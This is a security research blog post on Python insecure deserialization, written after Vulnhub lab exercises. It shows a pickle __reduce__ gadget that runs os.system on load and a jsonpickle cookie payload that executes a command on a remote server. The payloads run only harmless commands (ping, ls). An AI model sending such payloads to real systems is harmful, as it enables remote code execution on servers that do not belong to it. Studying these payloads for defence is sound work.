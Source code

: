 ```yaml
---
layout: single
title:  "Python Deserialization Vulnerabilities"
path: /posts/
date:   2020-05-22
tags: Deserialization python pickle
categories: research
classes: wide
author: komodino
excerpt: "This is a post containing my findings researching python deserialization attack vectors."
header:
  teaser: /assets/images/unserialize/picklerick.png
  teaser_home_page: true

---
```


Insecure Deserialization currently occupies place No.8 on OWASP's Top 10 Vulnerablitiy list for 2017.

To learn more about what deserialization attacks are, check out my write up on the Temple of Doom Vulnhub Box [here](https://pwnokefalos.eu/posts/)

## Introduction
---

In python the default and most popular module for serialization/deserialization is [Pickle](https://docs.python.org/3.8/library/pickle.html).

>The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy. Pickling (and unpickling) is alternatively known as “serialization”, “marshalling,” 1 or “flattening”; however, to avoid confusion, the terms used here are “pickling” and “unpickling”.

Reading the docs, pickle immediately warns us that we shouldn't really trust user input.

![](/assets/images/unserialize/warnpickle.png)

Let's do some test and play around with pickle. First create an object, then serialize it and save it in the system.

```python
class User:
        user_stats = {}
        def __init__(self,name,age):
                self.user_stats["name"] = name
                self.user_stats["age"] = age

john = User("John",21)

# Write to file - Serialize
with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize
with open("user.dat","rb") as f:
        user = pickle.load(f)

print(user.user_stats)
```

This will print `{'name': 'John', 'age': 21}`  

Here we succesfully **serialized** and then **unserialized** the object `john`.

## Vulnerability Analysis

What can possibly go wrong with this?
Reading a bit further in the docs we stumble upon **__reduce__**

>The __reduce__() method takes no argument and shall return either a string or preferably a tuple.
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:
1. A callable object that will be called to create the initial version of the object.
2. A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument.<br>
  ...

A healthy use for **__reduce__** would be for providing hints/directives to pickle on how to properly deserialize the object, in case the default automatical way is not enough.

But reading the above citation we conclude that any object that is going to be unserialized and is an instance of a class that has a **__reduce__** method implementation, given the right definintion of **__reduce__**  can immediately execute a callable object during the unserialization phase.

Let's break this down a bit and create another example.
```python
#!/usr/bin/env python3
import pickle
from os import system

class User:

        def __reduce__(self):
                command = "ping -c 3 google.com"  # The command to execute
                
                # As stated in the above docs if __reduce__ returns a tuple the first 
                # tuple element must be a callable object, in this case system. The 
                # second tuple element must be a tuple itself containing the arguments 
                # to the callable object. Upon deserialization this basically corresponds
                # to system(command)
                                                  
                return (system, (command, ))

# Create test object

john = User()

# Write to file - Serialize

with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize

with open("user.dat","rb") as f:
        user = pickle.load(f)
```

Running the above script we see

![](/assets/images/unserialize/google_ping.png)

We have command execution!

## Another variation
---

The idea for researching this came to me while solving the **Symfonos4 Vulnhub Box** where you are presented with a website that will deserialize the user cookie.

The cookie looked something like this
`{"py/object": "app.User", "username": "Poseidon"}`

This doesn't really look like standard **pickle** syntax so doing a little research it turns out that it is encoded with **jsonpickle**
>jsonpickle is a Python library for serialization and deserialization of complex Python objects to and from JSON. The standard Python libraries for encoding Python into JSON, such as the stdlib’s json, simplejson, and demjson, can only handle Python primitives that have a direct JSON equivalent (e.g. dicts, lists, strings, ints, etc.). jsonpickle builds on top of these libraries and allows more complex data structures to be serialized to JSON. jsonpickle is highly configurable and extendable–allowing the user to choose the JSON backend and add additional backends.

What will happen is the app will take the **jsonpickled** cookie and deserialize it. In this case convert it from JSON to a normal python object. This library also has a **reduce** method and we can construct a payload with
`{"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["ls"], 0, 0, 0]}`

This will execute `ls` on the remote server.

### Conclusion
---

**Never trust user input.**

### Useful links and References
---

[BlackHat 2011 - Sour Pickles, A serialised exploitation guide in one part](https://www.youtube.com/watch?v=HsZWFMKsM08)

[jsonpickle exploitation](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)


